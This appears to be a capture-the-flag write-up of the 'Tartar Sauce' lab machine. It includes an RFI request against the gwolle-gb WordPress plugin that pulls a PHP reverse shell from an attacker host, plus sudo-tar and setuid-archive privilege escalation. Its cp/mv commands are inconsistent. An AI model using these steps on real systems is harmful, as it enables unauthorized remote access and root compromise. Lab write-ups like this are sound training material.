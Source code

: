 # Tartar Sauce

### Machine Info
![](screenshots/tartarsauce.png)

#### Nmap
![](screenshots/nmap.png)

##### HTTP (Port 80)
Index Page:
![](screenshots/index.png)

robots.txt:
![](screenshots/robots.png)

Gobuster against /webservices/
![](screenshots/webservices_gb.png)


###### Monstra 3.0.4

Tried to access listed web page in the `robots.txt` but I am only able to access page `/webservices/monstra-3.0.4/`:

![](screenshots/monstra.png)


It seems like the web server is using application `monstra version 3.0.4`. We know the version so we can search for public exploits:
![](screenshots/monstra_exploits.png)
If we have admin account for `monstra`, we can try `RCE(Remote Code Execution)` with exploit `43348.txt`.


`/webservices/monstra-3.0.4/admin/`:
![](screenshots/monstra_admin.png)

I can login to the admin dashboard with credential `admin:admin`:
![](screenshots/monstra_dashboard.png)

I have admin account and tried to create user, upload file, edit page and create new directory but nothing worked. It is not allowing us to edit web page. This page maybe just a rabbit hole. I think this is not the way in :(


###### WP

From the `gobuster` result, I can check `/wp` page:
![](screenshots/wp_break.png)  

I checked the source code and the reason why web page is broken is wrong address of the url:
![](screenshots/wp_url_broken.png)

The href should be `http://` not `http:/`.

Let's use `burp` to replace `http:/`:
![](screenshots/wp_burp.png)

And we can have better look of web:
![](screenshots/wp_fix.png)

To check out if there is a vulnerable plugins or themes, I just tested with `wpscan` and found one vulnerable plugin:
![](screenshots/wp_scan.png)

The scan says `gwolle-gb` version is 2.3.10 but it is version `1.5.3`:
![](screenshots/fake_version.png)

The plugin `gwolle version 1.5.3` is vulnerable to `RFI`:
![](screenshots/wp_vuln.png)

I just followed steps as stated in exploit.

First create malicious `wp-load.php` to get a reveres shell:
```
❯ cp /usr/share/webshells/php/php-reverse-shell.php ./
❯ mv cmd.php wp-load.php
```

And just access from browser:
```
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.37:8888/
```

`nc` listener:
![](screenshots/low_shell.png)


#### www-data to normal user

First just check `sudo` privilege:
![](screenshots/low_user_sudo.png)

User `www-data` can execute command `/bin/tar` as `onuma`. I searched `tar` binary from [gtfobins](https://gtfobins.github.io/gtfobins/tar/) and was able to get method for privilege escalation:

![](screenshots/user_shell.png)


#### User to Root Privilege Escalation

During the enumeration I found interesting file `backuperer` so I just thought there should be some cronjobs related to this file. By using the program `pspy` I just confirmed that there is a cronjob:
![](screenshots/pspy1.png)

![](screenshots/pspy2.png)

`/usr/sbin/backuperer`:
![](screenshots/backup.png)
First it cleans up from last time and create new archive with random file name. Then it sleeps for 30 seconds and unzip archive with root privilege and do integrity check. If integrity check success it will report errors and return exit code 2 while it delete every files that created during execution time if it fails. Therefore if we can pass the integrity check step, we can keep the unzipped archive files.

##### Exploit

First create simple `setuid` program:
![](screenshots/setuid.png)

Archive from kali machine:
```
❯ chmod 6755 setuid_shell
❯ mkdir -p var/www/html
❯ cp setuid_shell var/www/html
❯ tar -zcvf root.tar.gz var/
```
![](screenshots/root_tar.png)


From the victim machine, just download the archive and wait for 5 minutes:
![](screenshots/random.png)

As we can see, we will get random named file `.e4af815........`. Then just change our archive name to that random name file:
![](screenshots/random_copy.png)
Both file have same size which means it is successfully changed.

And wait for 30 seconds again and we will get `check` directory:
![](screenshots/check.png)
The `check` directory with `root:root` owner and group.

From the directory `check` we can find `setuid` program that we created with root privilege:
![](screenshots/setuid_suc.png)

Just execute `setuid` program and we can get a shell:
![](screenshots/root_shell.png)


And you can get `root.txt` :)
